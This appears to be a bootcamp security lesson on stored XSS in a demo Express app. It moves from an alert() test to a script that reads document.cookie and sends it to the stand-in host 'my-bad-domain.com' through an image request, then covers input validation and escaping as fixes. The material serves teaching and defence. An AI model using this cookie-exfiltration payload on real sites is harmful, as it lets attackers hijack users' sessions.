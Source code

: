 # 9.2.1: XSS

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```javascript
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

![](../../../.gitbook/assets/xss-form.png)

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

![](../../../.gitbook/assets/xss-alert.png)

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we can do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

Commented Version:

```javascript
<script>
  var allCookies = document.cookie; // don't do an AJAX request in case there
  are CORS issues // create an image tag var imgEl =
  document.createElement('img'); // settting the img src causes the browser to
  try and request from this domain imgEl.src =
  'http://my-bad-domain.com?'+allCookies;
</script>
```

Compact Version:

```javascript
<script>
  var allCookies = document.cookie;var imgEl =
  document.createElement('img');imgEl.src =
  'http://my-bad-domain.com?'+allCookies;
</script>
```

Open the network tab and notice how all the cookie information is being sent to the malicious server.

![](../../../.gitbook/assets/xss-cookie.png)

### XSS Solutions

In the example app this XSS attack was facilitated by 2 parts of the code:

**1. No validation of the user's inputs.**

Ideally the app would never allow a user to enter any text into the cat name field that resembles code.

An easy implementation to guard against this is to use one of many common NPM libraries made for this purpose. [xss](https://www.npmjs.com/package/xss) is one of the most popular.

Note that string sanitization so that it is guaranteed not to contain JavaScript is a very hard problem to solve. See this example here: [https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp](https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp)

**2. No sanitization of the display of the database values.**

In this special express app we are not running EJS. When we print out the values from the database our code will directly generate HTML tags that will be interpreted by the browser.

See the code here: [https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320](https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320)

If we had used EJS, the code's characters would be displayed on the screen, instead of being interpreted by the browser. This is called HTML character escape. Most modern view / HTML generation libraries will provide this functionality built-in. However, character escape does not always keep the app safe from XSS. The other measures already mentioned should still be implemented.
